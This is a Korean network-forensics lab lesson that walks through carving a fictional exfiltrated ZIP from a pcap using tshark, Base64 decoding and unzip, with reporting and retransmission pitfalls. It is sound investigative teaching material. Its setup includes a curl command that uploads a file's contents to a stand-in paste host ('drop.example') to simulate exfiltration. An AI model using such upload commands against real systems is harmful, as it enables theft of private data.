

# 1.13강 — 실습 가이드: 유출된 데이터 카빙하기 { #lab-carving-exfiltrated-data }

!!! abstract "이번 회차의 범위"
    - 전체 패킷 pcap에서 **관련 있는 TCP 스트림**을 찾아 따로 떼어 낸다
    - 그 스트림에서 **올라간 내용(페이로드)**을 꺼낸다: 두 가지 방법으로, 결과가 같은지 해시로 확인
    - 꺼낸 데이터를 **여러 단계로 풀어서**(멀티파트 → Base64 → ZIP) 원래 파일로 되돌린다
    - "시험 삼아 올린 것"과 "진짜 올린 것"을 구별하고, 꺼낸 문서에서 무엇을 사실로 말할 수 있는지 정리한다
    - [주의] 재전송된 패킷이 있으면 패킷 내용을 그냥 이어 붙이는 방법은 틀린 파일을 만든다(직접 시험)

!!! note "실습 환경과 표기"
    **(직접 실행 결과)**는 이 작업 환경의 tcpdump 4.99.4, tshark 4.2.2, GNU coreutils(`base64`, `basenc`, `sha256sum`), Info-ZIP `unzip`으로 얻었습니다. 실습용 pcap은 루프백(`127.0.0.1`)에 직접 만든 연습용 붙여넣기 서버를 띄우고 `curl`로 실제 업로드를 보내 **수집한 것**입니다. `Host` 헤더로 `drop.example`, `news.example`이라는 예시 이름을 붙였고, 시각은 수집한 실제 시각(2026-11-05 UTC)입니다. 업로드한 문서와 표는 실습을 위해 지어낸 내용이며, 사례 전체가 **(가상 사례)**입니다. 8절의 "재전송" 파일은 원본 pcap에 패킷 하나를 복제해 넣어 **일부러 만든** 변형입니다.

## 1. 로그는 "올렸다"까지만 말해 준다 { #why-carve }

**(가상 사례)** 1.4강과 비슷한 다른 사건입니다. 연구 구간의 한 직원이 붙여넣기 사이트 `drop.example`에 무언가를 두 번 올린 기록이 프록시 로그에 있습니다. 로그에 남은 건 `POST /post`와 `302` 응답, 그리고 응답 크기뿐이에요. 1.4강 8절에서 봤듯이 **올린 내용은 로그에 없습니다.** 다행히 이번에는 이 사이트가 암호화 없는 HTTP를 받았고, 그 구간에 전체 패킷 수집이 돌고 있었습니다.

질문은 이렇습니다. **무엇을 올렸나?** 그 답을 pcap에서 찾아 원래 파일로 되돌리는 일을 **카빙(carving)**이라고 부릅니다. 원래는 디스크의 빈 공간에서 파일 조각을 깎아 내는 일을 가리키는 말인데, 네트워크에서는 스트림의 바이트 중에서 파일에 해당하는 부분만 깎아 내는 일이에요.

비유하자면 우체국에 남은 **접수 대장**(프록시 로그)은 "이 사람이 이 시각에 이 주소로 소포를 보냈다"까지만 알려 줍니다. 소포 안에 무엇이 들었는지는 **소포를 직접 열어야**(pcap에서 꺼내야) 압니다. 비유와 다른 점은, 네트워크의 "소포"는 여러 겹으로 포장돼 있고(이번 실습에서는 세 겹), 배달 중에 같은 조각이 **두 번 배달**되기도 한다는 것입니다. 그래서 포장을 순서대로 벗기고, 중복을 걸러 내는 절차가 필요합니다.

!!! warning "[주의] 암호화돼 있었다면"
    1.4강의 사건처럼 사이트가 HTTPS였다면 pcap에는 암호화된 바이트만 있고, 이 실습의 방법으로는 내용을 꺼낼 수 없습니다. 1.12강 3.2절처럼 연결의 한쪽 끝(TLS 가로채기 프록시)의 기록이나 세션 키가 있어야 합니다. 카빙을 시작하기 전에 그 스트림이 **평문인지**부터 확인하세요.

## 2. 실습 안내 { #how-to-use }

1.10강과 같은 구조(목표, 준비, 실습, 정리)입니다.

**목표**

1. 전체 패킷 pcap에서 관련 있는 TCP 스트림을 찾아 떼어 낸다.
2. 그 스트림에서 페이로드를 꺼낸다.
3. 꺼낸 데이터를 풀어 원래 파일로 되돌리고, 조사에 어떤 의미가 있는지 판단한다.

**준비**

- tcpdump, tshark(Wireshark), `base64`, `unzip`(또는 파이썬의 `zipfile`), `sha256sum`
- 실습 pcap `exfil.pcap`(패킷 60개). 출발점이 되는 단서는 "`drop.example`에 `POST`가 두 번 있었다"입니다.

!!! example "직접 실습 파일을 만들려면"
    아무 빈 폴더에서 다음을 준비합니다. ① `POST /post`를 받으면 `302`와 짧은 `Location`을 돌려주는 아주 작은 웹 서버(파이썬 `http.server`로 20줄이면 됩니다), ② 올릴 파일(텍스트 몇 개를 ZIP으로 묶고 `base64`로 바꾼 것), ③ `tcpdump -i lo -w exfil.pcap 'tcp port 8099'`로 수집하면서 `curl -H "Host: drop.example" -F "content=<bundle.b64" http://127.0.0.1:8099/post` 같은 요청 보내기. `-F "content=<파일"`은 파일의 **내용**을 `content`라는 폼 칸의 값으로 보내라는 뜻입니다. 연습용 서버는 내 컴퓨터의 루프백에만 띄우세요.

받자마자 해시부터 남깁니다(1.11강 4절).

```bash
sha256sum exfil.pcap
```

**(직접 실행 결과)**

```text
ea9b3939a8bc04cc66e70422cfa2db98f9ae3a5dc68294f098843df26bfc1fa3  exfil.pcap
```

## 3. 1단계: 관련 있는 스트림 찾기 { #find-stream }

먼저 pcap 안의 HTTP 요청을 모두 표로 봅니다(1.10강 6절).

```bash
tshark -n -r exfil.pcap -Y http.request -T fields -E header=y \
  -e frame.number -e tcp.stream -e frame.time_utc -e http.request.method -e http.host \
  -e http.request.uri -e http.content_length -e http.content_type
```

**(직접 실행 결과, 시각의 날짜 부분과 boundary 값 일부 생략)**

```text
frame.number  tcp.stream  frame.time_utc   method  http.host     uri      content_length  content_type
4             0           03:53:13.774927  GET     news.example  /today
16            1           03:53:13.782464  GET     drop.example  /
30            2           03:53:14.792823  POST    drop.example  /post    268             multipart/form-data; boundary=------...ojmtmX...
42            3           03:53:16.806079  POST    drop.example  /post    5559            multipart/form-data; boundary=------...ijgAGQ...
52            4           03:53:17.816165  GET     news.example  /weather
```

**해석:** `drop.example`로 간 `POST`가 두 번, 스트림 2와 3입니다. 2초 간격인데 **크기가 아주 다릅니다.** 268바이트와 5,559바이트. 둘 다 `multipart/form-data`, 즉 웹 폼으로 보낸 데이터예요. 응답도 봅니다.

```bash
tshark -n -r exfil.pcap -Y http.response -T fields -E header=y -e tcp.stream -e http.response.code -e http.location
```

**(직접 실행 결과)** 스트림 2는 `302`와 `/j3XFdQ`, 스트림 3은 `302`와 `/oC8GVg`. 1.4강 8절에서 본 "올리면 새 글의 짧은 주소로 보내 준다"는 모양 그대로입니다. 이 pcap에는 그 짧은 주소를 실제로 열어 본 `GET`은 없습니다. 이 직원이 올린 뒤 그 글을 확인하지 않았거나, 다른 경로로 확인했다는 뜻일 수 있어요(이 pcap만으로는 모릅니다).

멀티파트 안에 어떤 칸이 있었는지도 tshark가 해석해 줍니다.

```bash
tshark -n -r exfil.pcap -Y 'http.request.method == "POST"' -T fields -e tcp.stream -e mime_multipart.header.content-disposition
```

**(직접 실행 결과)**

```text
2	form-data;name="content",form-data;name="expire"
3	form-data;name="content",form-data;name="expire"
```

두 요청 모두 `content`(올린 글)와 `expire`(만료 시간) 두 칸을 보냈습니다. 이제 **스트림 3**이 주인공입니다.

!!! info "[보충] 큰 pcap이라면 먼저 줄인다"
    이 실습 파일은 작지만, 실제로는 하루 치 수백 GB에서 시작할 수 있습니다. 1.10강 8절처럼 먼저 tcpdump로 그 PC의 주소와 관련 포트만 줄인 뒤(`host 주소 and tcp port 80`), 줄인 파일에서 위의 tshark 명령을 돌립니다. 스트림 번호는 파일마다 다시 매겨지니, 원본에서 다시 찾을 때는 주소와 포트, 시각을 씁니다(1.10강 6.2절).

## 4. 2단계: 스트림을 들여다보기 { #look-at-stream }

스트림 3의 패킷 중 내용이 있는 것만 봅니다.

```bash
tshark -n -r exfil.pcap -Y 'tcp.stream == 3 && tcp.len > 0' -T fields -e frame.number -e ip.src -e tcp.srcport -e tcp.len
```

**(직접 실행 결과)**

```text
40	127.0.0.1	44158	254
42	127.0.0.1	44158	5559
44	127.0.0.1	8099	135
```

요청이 **두 패킷**으로 나뉘어 갔습니다. 40번(254바이트)이 요청 헤더, 42번(5,559바이트)이 본문이에요. `Content-Length: 5559`와 정확히 같습니다. 44번(135바이트)은 서버의 `302` 응답입니다. Wireshark는 40번에 "재조립된 PDU의 TCP 조각"이라고 표시하고, 42번에서 두 조각을 이어 붙여 하나의 HTTP 요청으로 해석합니다. 1.10강 8.3절에서 본 그 재조립이에요.

이제 Wireshark에서 이 스트림을 따라가 보세요(1.9강 7절). 42번 패킷을 고르고 "따라가기 → TCP 스트림"을 누르면, 클라이언트가 보낸 내용이 이렇게 보일 것입니다. tshark로는 `-z follow,tcp,ascii,3`이고, 아래는 그 앞부분을 정리한 것입니다.

**(직접 실행 결과, 앞부분)**

```text
POST /post HTTP/1.1
Host: drop.example
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Content-Length: 5559
Content-Type: multipart/form-data; boundary=------------------------ijgAGQGpxN7v6bpGEoTI7N

--------------------------ijgAGQGpxN7v6bpGEoTI7N
Content-Disposition: form-data; name="content"

UEsDBBQAAAAIAKAeZV1u0N79hQAAAKUAAAAIAAAAbWVtby50eHQVjrEOwjAMBfd+xRthoCsSIzDA
BOofmNQpkRy7ShxQ/p4y3Hp3j+lyu19BItaxFlsK5cw44EUe3jiicG3iFbtga98P59a5IJg6BT+h
...
```

세 가지를 읽을 수 있습니다.

- **멀티파트의 구조.** `boundary=` 뒤의 글자열이 칸과 칸 사이의 **경계선**입니다. 본문에서는 그 앞에 `--`가 붙은 줄로 나타나고, 마지막 경계선 뒤에는 `--`가 하나 더 붙습니다. 각 칸은 `Content-Disposition` 머리말, 빈 줄, 그리고 값 순서예요.
- **`content` 칸의 값이 이상합니다.** 사람이 쓴 글이 아니라 영문 대소문자, 숫자, `+`, `/`로만 된 긴 줄이 76글자마다 끊겨 있습니다. **Base64**의 전형적인 모양이에요. 바이너리 파일을 글자로 바꿔 텍스트 칸에 붙여 넣을 때 흔히 씁니다.
- **맨 앞의 `UEsDB`.** Base64로 바꾼 데이터의 첫 글자가 `UEsDB`이면 원래 데이터는 `PK\x03\x04`로 시작합니다. 이것은 **ZIP 파일의 매직 넘버**예요. 아직 풀지 않았지만, ZIP을 Base64로 바꿔 붙여 넣었을 가능성이 크다는 **가설**을 세울 수 있습니다.

!!! info "[보충] User-Agent는 스스로 밝힌 이름일 뿐"
    이 요청은 Firefox라고 밝혔지만, 실제로는 이 실습에서 `curl`에 `-A` 옵션으로 Firefox 이름을 넣어 보낸 것입니다. 1.3강에서 본 대로 User-Agent는 보내는 쪽이 마음대로 정합니다. 브라우저였다면 흔히 함께 보내는 `Accept-Language`나 `Accept-Encoding` 같은 머리말이 없다는 점이 단서가 될 수는 있지만, 그것도 **관찰**일 뿐 도구를 단정할 근거는 아닙니다.

## 5. 3단계: 페이로드 꺼내기, 두 가지 방법 { #extract }

### 5.1 방법 1: HTTP 객체 내보내기 { #export-objects }

```bash
mkdir obj && tshark -n -r exfil.pcap -q --export-objects http,obj
ls -l obj
```

**(직접 실행 결과)**

```text
-rw-r--r-- 1 root root  126 Nov  5 03:54 %2f
-rw-r--r-- 1 root root  268 Nov  5 03:54 post
-rw-r--r-- 1 root root 5559 Nov  5 03:54 post(1)
-rw-r--r-- 1 root root  126 Nov  5 03:54 today
-rw-r--r-- 1 root root  126 Nov  5 03:54 weather
```

1.10강 6.3절에서는 응답 본문을 꺼냈는데, 이번에는 **`POST` 요청의 본문**도 꺼내졌습니다. `post`(268바이트)가 스트림 2, `post(1)`(5,559바이트)이 스트림 3이에요. 이름이 같으면 `(1)`이 붙습니다. `%2f`는 `/` 주소의 응답이고요. 1.10강에서 배운 대로, **이름은 주소에서 왔을 뿐**이니 크기와 스트림 번호로 어느 것이 무엇인지 맞춰 봅니다.

### 5.2 방법 2: 스트림의 원래 바이트를 그대로 받기 { #follow-raw }

내보내기 기능을 쓸 수 없는 프로토콜도 많습니다. 그럴 때를 위해 스트림의 바이트를 직접 받는 방법도 알아 둡니다.

```bash
tshark -n -r exfil.pcap -q -z follow,tcp,raw,3 \
  | sed -n '7,$p' | grep -v '^=' | grep -v $'^\t' \
  | tr -d '\n' | tr 'a-f' 'A-F' | basenc --base16 -d > stream3-client.bin
```

한 줄씩 읽으면 이렇습니다.

- `-z follow,tcp,raw,3`: 스트림 3을 **16진수 글자**로 따라갑니다. 앞의 여섯 줄은 머리말(`Follow: ...`, `Node 0: ...` 등)입니다.
- `sed -n '7,$p'`: 일곱째 줄부터 끝까지 남깁니다. `grep -v '^='`는 끝의 `====` 줄을 뺍니다.
- `grep -v $'^\t'`: tshark는 **서버가 보낸 쪽**의 줄을 탭으로 들여 씁니다. 그 줄을 빼면 **클라이언트가 보낸 쪽만** 남습니다.
- `tr -d '\n'`: 줄바꿈을 없애 16진수를 한 줄로 잇습니다.
- `tr 'a-f' 'A-F' | basenc --base16 -d`: 16진수 글자를 다시 바이트로 바꿉니다. coreutils의 `basenc --base16`은 대문자만 받기 때문에 먼저 대문자로 바꿨습니다(이 환경에는 흔히 쓰는 `xxd`가 없어서 이렇게 했습니다. `xxd -r -p`가 있다면 그걸 써도 됩니다).

**(직접 실행 결과)** `stream3-client.bin`은 5,813바이트였습니다. 4절의 두 패킷(254 + 5,559)을 더한 값과 같아요. 이건 **헤더까지 포함한** 요청 전체이니, 헤더가 끝나는 빈 줄(`\r\n\r\n`) 뒤만 잘라 냅니다. 이 실습에서는 짧은 파이썬 한 줄로 잘랐고, 헤더 254바이트, 본문 5,559바이트로 나뉘었습니다.

**두 방법의 결과를 해시로 비교합니다.**

**(직접 실행 결과)**

```text
2135a02b95f648e6f5b50ed0570a616f7ebc26a38689a76da5218108d864b022  stream3-body.bin
2135a02b95f648e6f5b50ed0570a616f7ebc26a38689a76da5218108d864b022  obj/post(1)
```

같습니다. 서로 다른 두 방법이 같은 바이트를 냈으니, 꺼낸 결과를 더 믿을 수 있습니다. 보고서에는 두 방법과 두 해시를 함께 적습니다.

## 6. 4단계: 여러 겹의 포장을 벗기기 { #unwrap }

지금 손에 있는 것은 멀티파트 본문입니다. 원래 파일까지 세 겹을 벗겨야 해요.



**그림 읽는 법:** 위에서 아래로 한 겹씩 벗깁니다. 상자마다 그 단계의 **결과물**이고, 단계마다 해시를 남겨 두면 나중에 어느 단계에서든 같은 결과를 다시 만들 수 있습니다.

### 6.1 멀티파트에서 `content` 칸만 꺼내기 { #multipart }

```bash
awk 'BEGIN{RS="\r\n"} /name="content"/{f=1;next} f==1&&/^$/{f=2;next} f==2&&/^--/{exit} f==2{print}' \
  "obj/post(1)" > content.b64
```

- `RS="\r\n"`: HTTP 멀티파트의 줄 끝은 `\r\n`이라, 그것을 레코드 구분자로 씁니다.
- `/name="content"/{f=1;next}`: `content` 칸의 머리말을 찾으면 표시(`f=1`)를 하고 넘어갑니다.
- `f==1&&/^$/{f=2;next}`: 그다음 **빈 줄**이 머리말의 끝이고, 그 뒤부터 값입니다.
- `f==2&&/^--/{exit}`: 값을 읽다가 `--`로 시작하는 경계선을 만나면 끝냅니다.

**(직접 실행 결과)** `content.b64`는 5,302바이트이고, `UEsDBBQAAAAI...`로 시작했습니다.

!!! warning "[주의] 이 awk는 이 파일에 맞춘 것이다"
    이 짧은 명령은 "`content` 칸이 하나이고, 값 안에 `--`로 시작하는 줄이 없다"는 이 파일의 사정에 기댑니다. Base64에는 `-`가 나오지 않으니 여기서는 안전하지만, 일반 텍스트나 바이너리 칸이라면 값 안에 그런 줄이 있을 수 있어요. 정확히 하려면 **실제 boundary 문자열**(`--` + 헤더의 `boundary=` 값)과 맞는 줄에서만 끝내야 합니다. 이런 칸 나누기는 파이썬의 `email` 모듈처럼 멀티파트를 제대로 해석하는 도구에 맡기는 편이 안전합니다. 어떤 방법이든 결과의 크기와 해시를 기록합니다.

### 6.2 Base64 풀기, 그리고 파일 종류 확인 { #base64 }

```bash
base64 -d content.b64 > recovered.bin
file recovered.bin
sha256sum recovered.bin
```

**(직접 실행 결과)**

```text
recovered.bin: Zip archive data, at least v2.0 to extract, compression method=deflate
41d9c6322e7093ee9feae6e44ae6fe24f2f3adbb196ba0eba0d99db3a56eb747  recovered.bin
```

4절의 가설대로 **ZIP 파일**입니다. 확장자가 아니라 내용의 매직 넘버로 판단했다는 점이 중요해요(1.6강, 1.11강 3.1절).

이 실습은 올린 쪽의 원본 ZIP을 갖고 있으니 비교할 수 있었습니다. 원본 ZIP의 SHA-256도 `41d9c632…b56eb747`로 **바이트 하나 다르지 않았습니다.** 실제 사건에서는 이런 비교 대상이 없는 경우가 많습니다. 그럴 때는 대신 압축을 풀었을 때 오류가 없는지(6.3절), 파일 안의 형식 검사(ZIP의 CRC)가 통과하는지로 **온전함**을 확인합니다.

### 6.3 ZIP 풀기 { #unzip }

ZIP을 바로 풀기 전에 **목록부터** 봅니다. 압축 파일 안에 실행 파일이나, 풀면서 다른 폴더에 쓰려는 이상한 경로(`../`)가 있을 수 있으니까요.

```bash
unzip -l recovered.bin
```

**(직접 실행 결과)**

```text
Archive:  recovered.bin
  Length      Date    Time    Name
---------  ---------- -----   ----
      165  2026-11-05 03:53   memo.txt
     9239  2026-11-05 03:53   orchid-b7-results.csv
---------                     -------
     9404                     2 files
```

텍스트 파일 두 개라 위험은 적어 보입니다. 별도의 폴더에 풉니다(`unzip -q recovered.bin -d unz`). `unzip -t`로 CRC 검사를 함께 해도 좋습니다.

**(직접 실행 결과)**

```text
ORCHID alloy programme - batch 7 results (copy)
Buyer contact: see separate channel. Payment on delivery of full dataset.
Remaining files to follow after departure.
```

`memo.txt`의 내용입니다. `orchid-b7-results.csv`는 머리말 한 줄과 시료 400개의 측정값(`sample,temp_c,tensile_mpa,elong_pct`)이 담긴 401줄짜리 표였습니다.

!!! warning "[주의] 꺼낸 파일을 열 때"
    이번 파일은 텍스트라 바로 읽었지만, 꺼낸 파일은 **공격자가 만든 것일 수도** 있습니다. 문서나 실행 파일이라면 1.5강에서 본 것처럼 네트워크가 끊긴 분석용 환경에서, 가능하면 내용을 실행하지 않는 도구(`strings`, 형식별 분석 도구)로 먼저 봅니다. 문서가 열리며 외부 주소에 접속해 버리면, 조사하고 있다는 사실이 상대에게 알려질 수도 있어요(1.4강의 OPSEC).

## 7. 5단계: 무엇을 말할 수 있나 { #interpret }

### 7.1 시험 삼아 올린 것과 진짜 올린 것 { #test-vs-real }

스트림 2(268바이트)도 같은 방법으로 열어 보면 `content` 칸의 값은 `test 1 2 3`, `expire` 칸은 `10m`이었습니다**(직접 실행 결과)**. 두 업로드를 나란히 놓으면 이렇습니다.

| | 스트림 2 | 스트림 3 |
| --- | --- | --- |
| 시각(UTC) | 03:53:14.79 | 03:53:16.81 |
| 본문 크기 | 268바이트 | 5,559바이트 |
| `content` 값 | `test 1 2 3` | Base64로 바꾼 ZIP(5,302바이트) |
| 돌려받은 주소 | `/j3XFdQ` | `/oC8GVg` |

먼저 짧은 글로 **사이트가 동작하는지 시험**해 보고, 2초 뒤 진짜 데이터를 올린 모양입니다. 유출 사건에서 자주 보이는 순서예요. 이 순서 자체가 "실수로 올렸다"보다는 "준비해서 올렸다" 쪽에 무게를 싣는 **정황**이 됩니다. 물론 정황일 뿐이에요.

### 7.2 보고서에 쓰는 법 { #report }

- **관찰(사실):** 2026-11-05 03:53:16 UTC, 이 수집 지점에서 `drop.example`로 가는 `POST /post` 요청(스트림 3)이 있었다. 그 본문의 `content` 칸에는 Base64로 인코딩된 ZIP 파일(SHA-256 `41d9c632…b56eb747`)이 있었고, 그 안에 `memo.txt`(SHA-256 `76d74957…6c22d006`)와 `orchid-b7-results.csv`(SHA-256 `f2e19cc3…94345d8a482`)가 들어 있었다. 2초 전에는 같은 사이트로 `test 1 2 3`이라는 내용의 `POST`(스트림 2)가 있었다. 두 추출 방법(HTTP 객체 내보내기, 스트림 원시 바이트)의 결과 해시가 같았다.
- **해석(가설):** 짧은 시험 업로드 뒤 실제 자료를 올린 순서이고, 메모의 내용("구매자 연락처는 별도 경로", "전체 자료 인도 시 지급", "출국 후 나머지 전송")은 자료를 외부에 넘기려는 의도를 보여 주는 것으로 **읽힌다**.
- **더 필요한 증거:** 그 시각 그 출발지 주소를 쓴 기기와 사람(DHCP, 로그인 기록, 1.11강 2.2절), CSV의 내용이 실제 내부 연구 자료와 같은지에 대한 연구 부서의 확인, `/j3XFdQ`·`/oC8GVg` 글이 실제로 공개됐는지와 누가 읽었는지(사이트 운영자에 대한 법적 절차가 필요할 수 있음), 메모에 나온 "별도 경로"와 "나머지 파일"의 흔적(웹메일, 다른 업로드).
- **관찰의 한계:** 이 pcap은 한 수집 지점의 몇 초입니다. 그 전후에 다른 경로(HTTPS, 다른 사이트)로 무엇이 나갔는지는 이 파일로 알 수 없습니다. ZIP 안의 파일 수정 시각(2026-11-05 03:53)은 **ZIP을 만든 컴퓨터의 시계**를 따른 값이고, ZIP 형식은 이 시각에 시간대를 적지 않으며 2초 단위로만 기록합니다. 그래서 "파일을 만든 시각"의 참고 정도로만 씁니다.

"의도가 분명하다"는 판단은 결국 사람이 하는 일입니다. 분석가는 **어떤 바이트가 어디서 나왔는지**를 재현 가능하게 보여 주고, 그 문서가 무엇을 말하는지는 인용으로 정확히 전달하며, 결론은 다른 증거와 함께 내립니다.

## 8. [주의] 재전송이 있으면: 그냥 이어 붙이면 틀린다 { #retransmission }

실제 망에서는 패킷이 사라지거나 늦게 도착해 **같은 내용이 다시 보내지는(재전송)** 일이 흔합니다. 수집 지점에 따라 원래 패킷과 재전송 패킷이 **둘 다** 찍히기도 하고요. 이걸 시험하려고 `exfil.pcap`의 42번 패킷(본문 5,559바이트)을 0.2초 뒤에 한 번 더 넣은 `exfil-retrans.pcap`을 만들었습니다.

**(직접 실행 결과)**

```text
40	254		POST /post HTTP/1.1  [TCP segment of a reassembled PDU]
42	5559		POST /post HTTP/1.1
43	5559	1	[TCP Retransmission] 44158 → 8099 [PSH, ACK] Seq=255 Ack=1 Win=65536 Len=5559
45	135		HTTP/1.0 302 Found
```

Wireshark는 43번의 순서 번호가 이미 받은 범위와 같다는 걸 보고 `tcp.analysis.retransmission`으로 표시했습니다. 이제 세 가지 방법으로 클라이언트 쪽 바이트를 모아 봅니다.

| 방법 | 결과 크기 |
| --- | --- |
| 패킷마다 `tcp.payload`를 그냥 이어 붙이기 | **11,372바이트** (254 + 5,559 × 2) |
| `-z follow,tcp,raw,3`로 스트림 따라가기 | 5,813바이트 |
| `--export-objects http` | 5,559바이트 본문, 해시 `2135a02b…` (원본과 같음) |

**(직접 실행 결과)** 그냥 이어 붙인 결과는 본문이 **두 번** 들어가 원래보다 5,559바이트 큽니다. 이걸 그대로 Base64로 풀면 엉뚱한 파일이 나오거나 오류가 납니다. 스트림 따라가기와 객체 내보내기는 TCP의 순서 번호를 보고 **중복을 걸러 냈습니다.**

그래서 카빙은 패킷을 하나씩 보는 도구(`tcpdump -A`, 패킷마다 `tcp.payload`)가 아니라 **TCP 순서 번호로 스트림을 다시 맞추는 도구**로 합니다. 반대로 순서가 뒤바뀌어 도착한 패킷, 수집에서 빠진 패킷(1.9강 문제 7의 "bytes missing")도 있을 수 있으니, 꺼낸 결과의 크기가 `Content-Length`와 맞는지, 압축이나 파일 형식 검사가 통과하는지로 **완전한지**를 꼭 확인합니다.

## 9. 실제 조사에서는 이렇게 씁니다 { #in-practice }

1. **평문인지 확인한다.** 암호화돼 있다면 카빙 대신 연결 끝의 기록이나 키를 찾습니다(1.12강).
2. **줄이고, 찾고, 떼어 낸다.** 큰 원본은 BPF로 줄이고(1.10강), tshark 표로 후보 스트림을 찾고, 연결 단위로 떼어 냅니다.
3. **두 가지 방법으로 꺼내 해시를 비교한다.** 객체 내보내기와 스트림 원시 바이트처럼 서로 다른 방법이 같은 결과를 내는지 봅니다.
4. **포장을 한 겹씩 벗기며 단계마다 해시를 남긴다.** 멀티파트, 인코딩(Base64, URL 인코딩), 압축(gzip, ZIP), 그 밖의 형식을 차례로. 어느 단계든 다시 만들 수 있게 명령을 기록합니다.
5. **완전한지 확인한다.** `Content-Length`, 압축 검사, 파일 형식 검사. 빠진 바이트가 있다면 그 사실을 적습니다.
6. **꺼낸 파일은 안전하게 연다.** 목록 먼저, 분리된 환경에서, 실행하지 않는 도구로.
7. **사실, 해석, 필요한 증거, 한계를 나눠 쓴다.**

## 10. 정리 { #summary }

- 로그는 "올렸다"까지, 패킷은 "**무엇을** 올렸나"까지 말해 줍니다. 단, 평문일 때만입니다.
- `http.request`를 표로 보고 `POST`, 크기, `Content-Type`으로 후보 스트림을 찾았습니다. 268바이트와 5,559바이트의 두 업로드 중 큰 쪽이 주인공이었습니다.
- 꺼내는 방법은 두 가지였습니다. **HTTP 객체 내보내기**(`POST` 본문도 꺼낸다)와 **스트림 원시 바이트**(`-z follow,tcp,raw`). 두 결과의 해시가 같았습니다.
- 포장은 세 겹이었습니다. **멀티파트 → Base64 → ZIP.** `UEsDB`는 Base64로 바꾼 ZIP의 흔한 시작이고, 파일 종류는 확장자가 아니라 매직 넘버로 판단합니다. 복원한 ZIP은 원본과 해시가 같았습니다.
- 짧은 시험 업로드 뒤 실제 업로드가 이어진 순서와 메모의 내용은 의도를 보여 주는 정황이지만, 기기와 사람, 자료의 진위는 다른 증거로 확인합니다.
- **[주의]** 재전송이 있으면 패킷 내용을 그냥 이어 붙인 결과가 11,372바이트로 부풀었습니다. 카빙은 TCP 순서 번호로 스트림을 맞추는 도구로 하고, 결과가 완전한지 확인합니다.

## 복습 문제 { #review }

**문제 1. (명령 읽기)** 5.2절의 명령에서 `grep -v $'^\t'`를 빼먹으면 `stream3-client.bin`은 어떻게 될까요?

??? success "정답과 해설"
    tshark의 `follow` 출력에서 탭으로 들여 쓴 줄은 **서버가 보낸 쪽**입니다. 그 줄을 빼지 않으면 서버의 `302` 응답(135바이트)의 16진수까지 이어 붙여져, 결과는 클라이언트 요청 5,813바이트 뒤에 서버 응답이 붙은 5,948바이트짜리 파일이 됩니다. 이 경우 본문을 헤더 뒤부터 끝까지 잘라 내면 Base64 칸 뒤에 HTTP 응답이 섞여 들어가, 그대로 쓰면 잘못된 결과가 됩니다. 한쪽 방향만 모을 때는 그 방향을 **명시적으로** 고르고, 결과 크기를 `Content-Length`와 비교합니다. (크기 5,948은 이 실습의 두 숫자를 더해 계산한 값입니다.)

**문제 2. (변경된 조건)** 같은 업로드가 `multipart/form-data`가 아니라 `application/x-www-form-urlencoded`로 왔다면, 6.1~6.2절의 어느 단계가 어떻게 달라질까요?

??? success "정답과 해설"
    URL 인코딩 폼은 본문이 `content=...&expire=10m`처럼 **한 줄**이고, 칸 사이는 `&`, 이름과 값 사이는 `=`입니다. 그리고 값 안의 특수 문자가 `%2B`(`+`), `%2F`(`/`), `%3D`(`=`)처럼 **퍼센트 인코딩**됩니다. 그래서 6.1절의 경계선 대신 `&`와 `=`로 `content` 값을 잘라 내고, Base64를 풀기 **전에** 퍼센트 인코딩부터 풀어야 합니다. 이때 `+`가 공백으로 바뀌는 규칙도 있어, 순서를 틀리면 Base64가 깨집니다. 포장이 한 겹 더 생긴 셈이에요. 단계마다 크기와 해시를 남기면 어디서 틀렸는지 찾기 쉽습니다.

**문제 3. (흔한 오해)** "`--export-objects http`로 꺼낸 `post(1)`이 5,559바이트이니, 직원이 유출한 파일은 5,559바이트다." 이 말의 문제는 무엇인가요?

??? success "정답과 해설"
    5,559바이트는 **멀티파트 본문 전체**의 크기입니다. 그 안에는 경계선, 칸 머리말, `expire` 칸이 함께 있고, `content` 칸의 값(5,302바이트)도 Base64로 바꾼 글자라 원래 데이터보다 약 3분의 4배 큽니다. 실제 ZIP은 3,922바이트였고, 그 안의 파일들은 압축을 풀면 165바이트와 9,239바이트였습니다. 그러니 "유출된 파일"을 말할 때는 **어느 겹의 크기인지**를 밝혀야 하고, 보통은 가장 안쪽의 원래 파일과 그 해시를 기준으로 씁니다.

**문제 4. (해석)** 3절에서 이 pcap에는 `302`로 받은 짧은 주소(`/j3XFdQ`, `/oC8GVg`)를 여는 `GET`이 없었습니다. 1.4강의 사건에는 그 `GET`이 바로 뒤에 있었어요. 이 차이로 무엇을 말할 수 있고, 무엇은 말할 수 없나요?

??? success "정답과 해설"
    말할 수 있는 것: **이 수집 지점에서는** 업로드 직후 그 글을 여는 요청이 보이지 않았다는 것. 1.4강처럼 브라우저가 리디렉션을 자동으로 따라갔다면 바로 뒤에 `GET`이 있었을 것이므로, 이번 요청을 보낸 프로그램은 리디렉션을 따라가지 않았을 수 있습니다(이 실습에서는 실제로 `curl`을 `-L` 없이 썼습니다). 말할 수 없는 것: 그 글을 아무도 안 봤다는 것. 다른 기기, 다른 경로(휴대전화, HTTPS)로 열었을 수 있고, 이 pcap은 몇 초뿐입니다. 이 차이는 4절의 User-Agent 이야기와 함께 "브라우저가 아닌 도구였을 수 있다"는 **가설**의 재료가 됩니다.

**문제 5. (계산)** `content` 칸의 Base64 글자는 5,302바이트였고, 76글자마다 줄바꿈(`\n`) 한 글자가 들어 있습니다. 풀린 ZIP이 3,922바이트라면, 줄바꿈을 뺀 Base64 글자 수는 대략 몇 개여야 할까요? 실제와 맞나요?

??? success "정답과 해설"
